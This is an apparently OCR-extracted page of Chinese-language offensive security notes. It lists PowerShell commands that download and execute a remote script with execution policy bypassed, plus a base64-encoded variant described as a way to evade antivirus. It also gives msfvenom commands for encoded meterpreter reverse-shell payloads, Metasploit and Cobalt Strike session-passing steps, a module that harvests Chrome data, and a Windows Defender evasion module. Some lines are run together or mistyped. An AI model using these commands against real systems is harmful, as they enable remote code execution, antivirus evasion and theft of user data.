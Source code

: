 powershell.exe -Exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('http://172.16.54.1/1.ps1')"  从网站服务器下载并绕过本地权限执行

使用Base64对Powershell命令进行编码

echo "IEX (New-Object Net.WebClient).DownloadString('http://172.16.54.1/1.ps1')" > test.txt

python2 ps_encoder.py -s test.txt

Base64编码可以对Powershell命令进行编码，主要用于混淆、压缩代码，从而达到绕过杀软的目的。

powershell.exe -Exec Bypass -noexit -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA3ADIALgAxADYALgA1ADQALgAxAC8AMQAuAHAAcwAxACcAKQAKAA==

## 免杀shellcode 

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.2.128 lport=8080 -f py -b="\x00"

msfvenom -p windows/meterpreter/reverse_tcp lhost=172.20.150.222 lport=3333 --encrypt base64 -f c -o ###32位失败

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.20.150.222 lport=2222 --encrypt base64 -f c -o ###只支持64位

msfvenom -e x64/xor -p windows/x64/meterpreter/reverse_tcp lhost=172.20.150.222 lport=2222 -f c -o ##XOR 编码器

msfvenom -e x64/xor_dynamic -p windows/x64/meterpreter/reverse_tcp lhost=172.20.150.222 lport=2222 -f c -o 动态密钥XOR编码器

msfvenom -e x64/zutto_dekiru -p windows/x64/meterpreter/reverse_tcp lhost=172.20.150.222 lport=2222 -f c -o 

key,loader,payload 全分离加密 手法 过绝大多数杀软 https://github.com/jammny/Jbypassmsfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.2.128 lport=8080 -f py -b="\x00"

进程保护，虚拟化内存，只能过部分杀软，VProtect，VMProtect。



## MSF && CS 联动框架

MSF session to CS session   &&  CS session to MSF session

MSF session to CS session 

1 CS listener :windows/beacon_http/reverse_http

2 MSF payloaduse exploit/windows/local/payload_injectset payload windows/meterpreter/reverse_httpset DisablePayloadHandlder trueset lhost cs ipset lport 6666set session 1exploit

 CS session to MSF session

cs 使用的foreigon/reverse_http  msf reverse_http

use post/multi/recon/local_exploit_suggester （全自动：快速识别系统中可能被利用的漏洞）set showdescription trueset session 1 run

run post/windows/gather/enum_chrome #获取Chrome缓存

## show evasion命令可以列出Metasploit 中的所有evasion模块

use evasion/windows/windows_defender_exe 

set filename evasiontest.exe

set lhost 192.168.19.132

set lhost 7777

set payload windows/meterpreter/reverse_tcp

run

